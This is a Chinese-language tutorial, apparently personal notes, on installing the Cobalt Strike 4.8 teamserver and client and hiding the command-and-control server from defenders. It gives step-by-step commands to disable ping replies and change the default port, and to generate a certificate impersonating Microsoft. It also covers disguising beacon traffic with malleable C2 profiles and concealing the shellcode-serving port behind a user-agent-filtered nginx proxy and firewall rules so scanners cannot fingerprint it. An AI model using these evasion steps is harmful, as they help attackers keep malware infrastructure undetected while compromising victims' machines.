 Cobalt Strike基于Java环境开发，所以一定要安装Java环境。（工具的组成为服务端 + 客户端）

Cobalt Strike4.8

### 服务端  
启动Cobalt Strike需要JDK的支持，需要安装Java环境，如果服务端是kali，默认安装了java环境  
文件复制进linux服务器  
执行`ls -l` 查看TeamServer跟TeamServerImage是否有执行权限  
如果TeamServer跟TeamServerImage不具备x执行权限，执行如下命令添加执行权限  
`sudo chmod +x teamserver TeamServerImage`  
启动服务端：  
`sudo ./teamserver 192.168.163.172 cspasswd`  
这里填本机ip地址跟密码,默认端口为50050  
![alt text](image/server.png)

### 客户端  
windows运行客户端，也需要有JDK环境  
运行cobaltstrike-client.cmd文件  
输入对应服务端上设置的Host Port User Password  

![alt text](image/image-1.png)  
Alias：输入主机别名或使用默认值，不能为空或以*开头。  
Host：指定团队服务器的IP地址，不能为空  
Port：服务器的端口（默认为50050）  
User：你在团队服务器上的昵称，不能为空。  
Password：连接到服务器的密码  

第一次用连接到此团队服务器, 会弹出确认指纹  
Cobalt Strike将询问你是否识别此团队服务器的SHA256哈希,指纹校验的主要作用是防篡改  
点击是,连接登录到服务端并打开客户端用户界面   

![alt text](image/image-2.png)  

![alt text](image/image-4.png)  

如果连接不上，查看服务端防火墙是否开启默认端口或者指定的端口  

Cobalt Strike将会记住这个SHA256哈希值,以便将来连接.可以通过Cobalt Strike -> Preferences -> Fingerprints 来管理这些哈希值。  


## 隐藏特征码-服务端(免杀手法之一)  
开启禁Ping动作、修改CS默认端口、修改CS默认证书、C2profile混淆流量、nginx反向代理

#### 开启禁Ping动作:  
        命令: sudo vim /etc/sysctl.conf
        添加一行: net.ipv4.icmp_echo_ignore_all = 1
        刷新配置: sudo sysctl -p

#### 修改CS默认端口:  
        cd到cs服务端: cd CobaltStrike4.8/Server
        编辑teamserver文件: vim teamserver
        修改port=50050为其他端口
        如果有防火墙记得开放规则: sudo ufw allow 19001

#### 修改CS默认证书:    
Cobalt Strike默认证书中含有与cs相关的特征，已经被waf厂商标记烂了，我们要重新生成一个新的证书，这里我们用JDK自带的keytool证书工具来生成新证书 

删除服务端Server目录下的cobaltstrike.store文件:  
`sudo rm -rf cobaltstrike.store`   

利用keytool生成新的一个无特征的证书文件cobaltstrike.store  
    `keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias 360.com -dname "CN=Microsoft Windows, OU=MOPR, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US"`  
    -keystore 生成的store名  
    -storepass 指定更改密钥库的储存口令  
    -keypass 指定更改条目的密钥口令  
    -genkey -keyalg RSA 指定算法  
    -alias 自定义别名  
    -dname 指定所有者信息  

证书生成完毕后，查看一下是否是新的证书内容   
查看cs证书文件内容：`sudo keytool -list -v -keystore cobaltstrike.store`    

#### C2profile混淆流量:  
Github上已经有非常多优秀的C2-Profile可以供我们使用了，我们需要使用Profile让Beacon和Teamserver之间的交互看起来尽可能像正常的流量  

https://github.com/rsmudge/Malleable-C2-Profiles  
https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/amazon.profile  
https://github.com/threatexpress/malleable-c2    

修改Beacon与cs通信时候的流量特征，创建一个c2.profile文件(名字任意)   
`sudo touch c2.profile`  

​这里我使用的是后者jquery的profile
把jquery-c2.4.8.profile的内容复制进c2.profile，可自由修改部分内容:   
`sudo vim c2.profile`    

然后使用c2.profile方式启动teamserver   
`sudo ./teamserver 192.168.2.96 passwd332 c2.profile`   

客户端开启CS的监听，触发木马   
抓包，查看流量特征是否被混淆   
发现请求改成了我们在c2.profile中编写的URL、UA等信息时，则修改成功。   

#### 部署nginx反向代理:   
nginx反向代理可以用来隐藏C2服务器，把cs监听端口给隐藏起来了，要不然默认geturl就能获取到我们的shellcode，加密shellcode的密钥又是固定的(3.x 0x69，4.x 0x2e)，所以能从shellcode中解出c2域名等配置信息。  

不修改这个特征的话nmap 一扫就出来  
`nmap [ip][port] --script=grab_beacon_config.nse`  

修改这个特征有两个方法:  
1.修改源码加密的密钥  

2.限制端口访问，让一般的扫描器扫不出来  

这里我们用nginx做反向代理，通过ua过滤流量，然后防火墙限制端口只能让127.0.0.1访问shellcode端口

先到我们的服务器上安装nginx服务，kali自带  

找到nginx安装路径:`whereis nginx`  

打开nginx配置文件 `vim /etc/nginx/sites-available/default` kali自带的nginx配置文件在这个位置，具体看个人的nginx安装位置  

在http中的server中配置中添加   

        location ~*jquery {
            if ( $http_user_agent != "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko")
            {
                return 404;
            }
            proxy_pass http://127.0.0.1:12095;
        }

配置中的ua根据你的profile文件中设置的useragent所定，profile中的ua也可以自行修改  
重启nginx: `sudo service nginx restart`

设置防火墙只能让127.0.0.1访问监听端口  

        iptables -I INPUT -p TCP --dport 12095 -j DROP
        iptables -I INPUT -s 127.0.0.1 -p TCP --dport 12095 -j ACCEPT
        service iptables restart

杀毒软件查杀方式：特征码、动态查杀、云查杀  


### Cobalt Strike工作原理   
        1.攻击者通过Cobalt Strike生成恶意软件,并将其上传到受害者计算机上。
        2.恶意软件会在受害者计算机上运行,并向Cobalt Strike服务器发送连接请求。
        3.Cobalt Strike服务器接受连接请求，并与恶意软件建立通信。
        4.攻击者可以通过Cobalt Strike控制台执行各种操作,如扫描目标网络、收集目标计算机信息、下载和上传文件等。
        5.Cobalt Strike还提供了内置的模块,如端口转发、代理服务器、漏洞利用等,可帮助攻击者更好地渗透目标网络。
